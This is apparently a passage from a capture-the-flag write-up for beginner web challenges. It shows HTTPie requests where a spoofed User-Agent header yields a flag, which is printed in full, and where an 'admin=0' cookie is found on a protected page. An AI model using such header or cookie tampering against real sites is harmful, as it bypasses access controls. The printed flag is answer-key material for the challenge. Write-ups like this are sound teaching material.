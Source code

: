 ```
$ http -p hHbB ws-chall.umisc.info:2005/spy_base User-Agent:"Agent Secure 1337"
GET /spy_base HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Host: ws-chall.umisc.info:2005
User-Agent: Agent Secure 1337



HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 43
Content-Type: text/html; charset=utf-8
Date: Tue, 10 Mar 2020 22:58:36 GMT
ETag: W/"2b-Ewe9HC3ad0du+hJEPtswscfJs3A"
X-Powered-By: Express

MISCCTF{au7h3nt1c4t10n_w17h_us3r_4g3n7_b4d}
```

---

# Basics III (50pts) <a name="basics-iii"></a>

> Free flag! (admins only)
> 
> http://ws-chall.umisc.info:2005/flag
>
> Author: Joseph

## Solution

A GET request to the page using [HTTPie](https://httpie.org/) reveals that an `"admin"` cookie is being set with value `0`:

```
$ http -p hHbB ws-chall.umisc.info:2005/flag
GET /flag HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Host: ws-chall.umisc.info:2005
User-Agent: HTTPie/2.0.0



HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 18
Content-Type: text/html; charset=utf-8
Date: Tue, 10 Mar 2020 23:00:56 GMT
ETag: W/"12-PqGrlFX4yzUgFwX1IcXOIUPkcgY"
Set-Cookie: admin=0; Max-Age=1333333; Path=/; Expires=Thu, 26 Mar 2020 09:23:09 GMT
X-Powered-By: Express

You are not admin!
```
